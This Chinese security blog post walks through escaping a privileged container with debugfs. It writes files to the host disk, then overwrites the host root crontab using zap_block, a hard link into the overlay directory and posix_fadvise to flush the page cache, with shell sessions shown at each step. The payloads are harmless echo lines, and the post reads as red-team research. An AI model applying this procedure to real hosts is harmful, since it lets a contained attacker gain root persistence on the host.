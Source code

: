 ```yaml
---
layout: post
title: debugfs在容器逃逸中的作用
---
```

## 0x00 前言
[红蓝对抗中的云原生漏洞挖掘及利用实录](https://security.tencent.com/index.php/blog/msg/183)中提到，在特权容器、`sys_admin`、`lxcfs`场景下，我们可以通过创建`cgroup devices subsystem`,修改`devices.allow`设置设备的访问权限，创建设备文件目录，并通过debugfs去访问宿主机的文件，达到逃逸的目的；由于`debugfs`不支持很多常用`linux`的命令，如`cp、echo`等，我们不能很方便的写文件到宿主机，虽然实战中我们可以通过cat命令去读取k8s的配置文件，但是如果需要写文件到宿主机，这时候该怎么办呢？
## 0x01 什么是debugfs
- debugfs - ext2/ext3/ext4 file system debugger

debugfs主要用来对ext2/ext3/ext4文件系统进行调试，可以用来恢复文件，更多使用[参考](https://man.archlinux.org/man/debugfs.8.en)  
## 0x02 debugfs中的write和zap_block
`debugfs`的`write`和`zap_block`命令可以写入文件，我们分别来介绍它们。  
write:
```html
write source_file out_file
    Copy the contents of source_file into a newly-created file in the filesystem named out_file.
```
通过`write`命令我们可以将容器中的文件复制到宿主机中。
演示：
实验环境：特权ubuntu容器  
```shell
#在容器的bash中
root@4da29cbf878a:/tmp$ echo test > /tmp/testfile.txt
debugfs -w /dev/sda1 #读写模式打开/dev/sda1
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /tmp                 
debugfs:  write /tmp/testfile.txt testfile-host.txt #将容器中的/tmp/testfile.txt文件复制到宿主机的tmp目录中
Allocated inode: 787881
debugfs:  cat testfile-host.txt #读取复制的文件成功
test

#回到宿主机
ubuntu1@123:/tmp$ ls -l testfile-host.txt 
-rw-r--r-- 1 root root 5 Jun 17 10:44 testfile-host.txt
```
可以看到，这里是可以读取的，并且文件是正常没有损坏的；如果我们写入一个计划任务，可能就不行了
```bash
root@4da29cbf878a:/tmp$ echo '* * * * * echo test1 >> /tmp/testfile1.txt' > root   
root@4da29cbf878a:/tmp$ debugfs -w /dev/dm-0
debugfs 1.45.5 (07-Jan-2020)
debugfs:  cd /var/spool/cron/crontabs
debugfs:  write /tmp/root root
Allocated inode: 135695
debugfs:  

#回到宿主机
ubuntu1@123:/tmp$ sudo ls -l /var/spool/cron/crontabs/
ls: cannot access '/var/spool/cron/crontabs/root': No such file or directory
total 0
-????????? ? ? ? ?            ? root
```
可以看到，此时的文件是有问题的，这样是不能执行计划任务的,通过查阅资料<https://www.intezer.com/blog/cloud-security/royal-flush-privilege-escalation-vulnerability-in-azure-functions/>  
文章中提到
```
Unfortunately, due to the same constraint we explained with the write cache, 
changes to /dev/sda5 would not propagate to the view of the /etc/passwd file 
until its cached pages are discarded. Meaning, we were only able to overwrite 
files that were not recently loaded from disk to memory, or otherwise wait 
for a system restart for our changes to apply. 
```
由于`crontabs`目录下的文件会不停的从磁盘中加载到内存，我们写的文件是有缓存的，只有等到重启才能够成功，然而实战情况不可能让你重启系统，所以如果使用write去复制文件到宿主机，不能够操作类似于计划任务这种不间断需要从磁盘加载到内存的文件。  
接着学习前面的文章：
```
This hard link still requires root permissions to edit, so we still had to use zap_block
to edit its content. We then used posix_fadvise to instruct the kernel to 
discard pages from the read cache (flush them, hence the name of the technique), 
inspired by a project named pagecache management (source: fadv.c slightly edited by us). 
This caused the kernel to load our changes and we were finally able to propagate them to the Docker host filesystem:
```
文中提到了通过`zap_block`去修改文件，再通过`ln`将修改成功的宿主机文件链接到容器中`upperdir`目录下，再通过 `posix_fadvise`从缓存中丢弃，这样就能够避免缓存的影响:
```shell
root@1fae4e0f04c8:/tmp$ debugfs -w /dev/dm-0
debugfs 1.45.5 (07-Jan-2020)
debugfs:  blocks /var/spool/cron/crontabs/root #获取文件的blocks
2694190
debugfs:  zap_block -o 15 -l 3 -p 0x41 2694190 #将ascii值为41的字符写入到第15个位置，向后替换3位
debugfs:  ln /var/spool/cron/crontabs/root /var/lib/docker/overlay2/fb877e934027ebf552cffe9e7cac5b84512c575c75f5008c3f58ccc277e7c62f/diff/tmp/
debugfs:  q
root@1fae4e0f04c8:/tmp$ ./fav root  #丢弃数据，避免缓存影响
```
这里我们通过`zap_block`修改了blocks为2694190的文件，也就是我们的/var/spool/cron/crontabs/root文件，从15位开始，向后3个长度，替换为ASCII值为41的字符A。修改完了之后再通过posix_fadvise，立即从`page cache`中丢弃数据，这样就不会有页面缓存的问题，编译的fav文件参考<https://github.com/tsarpaul/pagecache-management/blob/master/fadv.c>  
这时我们返回宿主机，查看root用户的计划任务:
```bash
ubuntu1@123:~$ sudo cat /var/spool/cron/crontabs/root
* * * * * echo AAAt >> /tmp/root1.txt
```
可以看到，已经成功写入并不受缓存影响。
